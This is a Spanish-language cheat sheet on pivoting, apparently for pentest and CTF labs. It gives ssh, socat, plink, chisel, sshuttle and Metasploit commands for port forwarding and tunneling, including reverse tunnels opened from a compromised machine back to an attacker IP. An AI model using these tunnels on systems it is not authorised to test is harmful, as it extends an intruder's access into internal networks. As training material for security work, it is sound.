 ```yaml
---
layout: post
title: Pivoting - CheetSheat
tags: [CheetSheat,Linux]
description: "Pivoting - CheetSheat"
---
```



| argumento | descripción                            |
|-----------|----------------------------------------|
| -fN       | poner en 2do plano                     |
| -L        | reenvío de puerto local                |
| -i        | especificar archivo para autenticación |
| -R        | reenvío de puerto remoto               |

## Local PortForwarding

metasploit

```
portfwd add -l 8081 -p 9090 -r 127.0.0.1
```

ssh

```
ssh -L <port_attack>:<ip_attack>:<target_port> <user_target>@<target_ip> -fN
```

socat

```
socat tcp-l:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> & (en la maquina comprometida)
socat TCP-LISTEN:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> &
```

------------

## Remote PortForwarding

ssh

```
ssh -R <port_local>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i id_rsa -fN
ssh -R 4646:127.0.0.1:80 noroot@192.168.0.107 -o UserKnownHostFile=/dev/null -o StrictHostKeyChecking=no
```

plink.exe

```
cmd.exe /c echo y | .\plink.exe -R <local_port>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i <KEYFILE> -N
```

Usando Chisel

```
chisel server -p <port_server> --reverse (como usuario root )
chisel.exe client <ip_attack>:<port_server> R:<port_atack>:ip_local:<port_local> (windows)
chisel.exe client 192.168.0.107:8000 R:4445:127.0.0.01:445
```

-----------

# Tunneling

sshutle

```
sshutle -r noroot@192.168.0.107 10.200.100.200
```

chisel

```
chisel server -p 8000 --reverse
chisel client 192.168.0.105:8000 R:5000:10.200.100.200:80
```

plink

```
plink.exe -L 7000:ready.htb:5000 noroot@192.168.0.105
plink -L <port_local>metasplotable2:<port_pivot> root@kali
```

metasploit

```
run  autoroute -s 172.16.50.0/24
```

---------

## Resumen:

**SSH** se puede utilizar para crear tanto reenvíos de puerto como proxies.  
**plink.exe** es un cliente SSH para Windows, que le permite crear conexiones SSH inversas en Windows.  
**Socat** es una buena opción para redirigir conexiones y se puede utilizar para crear reenvíos de puertos de diversas formas.  
**Chisel** puede hacer exactamente lo mismo que con el reenvío/tunelización de puertos `SSH`, pero no requiere acceso SSH en la caja.  
**sshuttle** es una forma más agradable de crear un proxy cuando tenemos acceso SSH en un objetivo.  
**Proxychains y FoxyProxy** se utilizan para acceder a un proxy creado con una de las otras herramientas.  
